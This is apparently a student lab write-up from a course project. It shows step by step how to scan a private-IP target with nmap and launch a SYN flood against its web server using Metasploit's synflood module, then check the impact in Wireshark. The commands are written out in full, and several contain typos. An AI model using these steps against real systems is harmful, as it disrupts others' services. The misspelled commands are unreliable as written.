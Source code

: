 # Attack Machine Setup
This is a separate virtual machine with an IP Address of _192.168.166.202_

1. To start, we will use 'nmap' to search the target machine to find an open port.  'nmap 192.168.166.201'
![Attack1](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack1)
Nmap returns that port 80/tcp is open. This makes sense beacuse the target machin is running and HTTP server

2. The next step is to get ready to run the Metasploit console.  The first step is to ensure that postgresql is running
  '# /etc/init.d/postgresqlstatus'
  
  '#/etc/init.d/postgresqlstart'
  
  This starts the postgresql services.  Next we have to initialize the Metasploit database.
  
  '# msfdbinit'
  
  Once that is conplete, we can execute the Metasploit console
  
  '# msfconsole'
  
  ![Attack2](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack2)
  
 3. Now we can prepare Metaspliot to carry out our SYN Flood Attack.
 
  First, we select the auxiliary that will run the attack.
  'use auxiliary/dos/tcp/synfloof'
  
  Next set the target host's IP address.
  
  'set RHOSTS 192.168.166.201'
  
  The default target port should be 80, however it can be set using the following.
  
  'set RPORT 80'
  
  Once all the information is input, the attack can be executed with this command.
  
  'exploit'
  
  3. Durring the attack, Wireshark can be used to view how many packets have been sent to the target.
  
  ![Attack3](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack3)
  
  The highlighted portion shows that we have sent 119,591 packets to the target machine at this point in time
  
  Similarly, if we want to see how this is effecting the host machine, we can attempt to connect to the host site using the host's IP address.  The site should be slow to load or inaccessible entirely.  On the host machine, we can load the system info application and look at the network load
  
  ![Attack4](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack4)
 
  
